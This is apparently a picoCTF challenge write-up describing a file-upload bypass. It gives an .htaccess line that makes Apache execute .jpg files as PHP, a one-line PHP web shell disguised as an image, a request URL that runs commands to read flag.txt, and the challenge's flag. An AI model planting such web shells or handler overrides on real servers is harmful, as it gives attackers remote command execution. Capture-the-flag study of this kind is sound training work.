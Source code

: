 https://play.picoctf.org/events/77/challenges/518?category=1&page=1
## Description
## Solution
1. Upload a .htaccess file to tell apache to interpret .jpg as php code:
	![](Pasted%20image%2020251005113710.png)
	Content of .htaccess:
		```AddHandler application/x-httpd-php .jpg```
2. Upload a malicious image. Basically a bad.png with the following code:
	![](Pasted%20image%2020251005114126.png)
	With this payload:
		```<?php
	  $cmd = $_GET['cmd'];
	  system($cmd);
		?>```
	
	Then we send several commands to list files in current folder, parent folder, grand parent folder, until we find a file that could contain the flag then we read that file:
	```http://amiable-citadel.picoctf.net:53084/images/bad.jpg?cmd=cat%20../../flag.txt```

	And the flag is: ```picoCTF{s3rv3r_byp4ss_39f9de85}```

## Additional notes
## References

